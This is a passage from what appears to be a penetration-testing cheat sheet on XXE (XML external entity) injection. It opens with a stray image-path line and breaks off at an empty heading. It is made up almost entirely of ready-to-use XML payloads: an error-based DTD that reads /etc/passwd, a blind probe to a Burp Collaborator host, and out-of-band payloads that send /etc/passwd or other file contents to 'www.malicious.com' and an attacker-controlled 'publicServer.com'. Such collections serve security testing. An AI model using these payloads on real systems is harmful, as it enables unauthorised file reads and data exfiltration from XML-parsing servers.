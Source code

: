 **Contents of ext.dtd**

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

## Exploiting blind XXE to exfiltrate data out-of-band

Sometimes you won't have a result outputted in the page but you can still extract the data with an out of band attack.

### Basic Blind XXE

The easiest way to test for a blind XXE is to try to load a remote resource such as a Burp Collaborator.

```xml
<?xml version="1.0" ?>
<!DOCTYPE root [
<!ENTITY % ext SYSTEM "http://UNIQUE_ID_FOR_BURP_COLLABORATOR.burpcollaborator.net/x"> %ext;
]>
<r></r>
```

Send the content of `/etc/passwd` to "www.malicious.com", you may receive only the first line.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "file:///etc/passwd" >
<!ENTITY callhome SYSTEM "www.malicious.com/?%xxe;">
]
>
<foo>&callhome;</foo>
```

### XXE OOB Attack (Yunusov, 2013)

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
<data>&send;</data>

File stored on http://publicServer.com/parameterEntity_oob.dtd
<!ENTITY % file SYSTEM "file:///sys/power/image_size">
<!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
%all;
```

### XXE OOB with DTD and PHP filter
